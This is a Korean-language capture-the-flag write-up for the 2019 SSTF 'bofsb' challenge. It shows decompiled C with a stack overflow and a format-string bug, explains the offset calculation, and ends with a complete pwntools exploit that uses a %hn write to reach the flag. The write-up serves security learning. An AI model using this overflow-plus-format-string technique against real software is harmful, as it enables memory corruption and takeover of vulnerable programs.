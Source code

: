 ```yaml
---
title: "2019 SSTF bofsb"
date: 2020-1-6
tags: [SSTF]
categories: [SSTF]
---
```


32비트 바이너리다. 메인은 1,2 입력받아서 각각 format에 Black, White 저장해준다. 그리고 name 주소를 magic code라면서 준다. 이름을 입력하는 곳에서는 bof가 터진다. 그리고  `printf(format);` 에서는 FSB가 터진다. 

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+0h] [ebp-50h]
  int name; // [esp+4h] [ebp-4Ch]
  char *format; // [esp+44h] [ebp-Ch]
  unsigned int v7; // [esp+48h] [ebp-8h]

  v7 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  puts("Welcome to Othello game!");
  puts("Please select your color.");
  puts(" 1: Black");
  puts(" 2: White");
  printf(" > ");
  __isoc99_scanf("%d", &v4);
  if ( v4 == 1 )
  {
    format = "Black";
  }
  else
  {
    if ( v4 != 2 )
    {
      puts("You selected a wrong number.");
      exit(0);
    }
    format = "White";
  }
  printf("okay, please remember this magic code: %p\n", &name);
  printf("Please enter your name: ");
  __isoc99_scanf("%s", &name);
  printf("%s, your color is ", &name);
  printf(format);
  if ( playOthello(v4) )
  {
    puts("Congrats, You Win!!");
    showFlag();
  }
  else
  {
    puts("Sorry, you lose.");
  }
  return 0;
}
```

`playOthello` 함수는 v4의 값이 33이면 `showFlag` 로 가서 flag 파일을 읽어서 출력해준다. 그러면 우선 v4의 값은 1 아니면 2인데 이를 바꿔주면 된다. 

```c
_BOOL4 __cdecl playOthello(int a1)
{
  printf("\n\nLet the games Begin... Your card is %x\n", a1);
  return a1 == 33;
}
```

name 입력할 때 format을 v5(&name)으로 덮어버린다. 그러면 `printf(format) -> printf(name)`이 될것이다. 

payload : 'A'*4 + "%p%p%p%p%p" + "A" * (0x40-len(전에넣었던만큼)) + p32(name)

이런식으로 넣어서 offset을 구해줄 수 있다. 그러면 0x41414141이 2번째에 나온다.

이제 AAAA 대신 v4를 넣어주고 29만큼 채운 후 `%2$hn` 으로 v4주소에 앞서 출력한 33바이트만큼을 넣어주고 64바이트만큼 채운 다음에 &name을 넣어주면 된다.

> exploit.py

```python
from pwn import *

context.arch = 'i386'
# context.log_level = 'debug'
e = ELF('./bofsb')
p = process('./bofsb')

p.sendlineafter('>','1')
p.recvuntil(': ')
name = int(p.recvline(),16)
v4 = name - 4
log.info('name addr : ' + hex(name))
log.info('v4 : ' + hex(v4))
'''
payload = 'A'*4
payload += '%p%p%p%p%p%p'
payload += 'A'*(0x40-len(payload))
payload += p32(name)
'''
payload = p32(v4)
payload += '%{}c'.format(33-4)
payload += '%{}$hn'.format(2)
payload += 'B'*(64-len(payload))
payload += p32(name)
p.sendlineafter(':',payload)

p.interactive()
```





